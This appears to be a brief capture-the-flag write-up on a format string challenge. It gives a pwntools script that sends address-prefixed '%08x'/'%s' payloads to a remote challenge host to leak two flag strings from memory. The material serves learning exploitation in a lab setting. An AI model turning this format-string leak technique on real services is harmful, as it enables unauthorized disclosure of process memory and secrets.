 Okay, as the description suggests, the challenge is about a format string attack.
I used Ghidra to disassemble the binary. 


Thus, we found the respective addresses where flag1 and flag2 are located. Now, we only need to extract the data from that address which can be done by exploiting the format string vulnerability. here's a simple script for it.

```
#!/usr/bin/env python
from pwn import *
flag1 = 0x804a02c
flag2 = 0x804a040
port =  18137
host = "hack.scythe2021.sdslabs.co"
#target = process("./f_me")   use it to test the exploit locally

target=remote(host,port)

# First send this payload, you'll get the first part of the flag
#payload = p32(flag1) +('%08x '*6+'%s').encode()

# After you get the first part of the flag, use this payload after removing the first one
#payload = p32(flag2) +('%08x '*6+'%s').encode()
target.recvuntil("ploxx")
target.sendline(payload)
target.interactive()
```
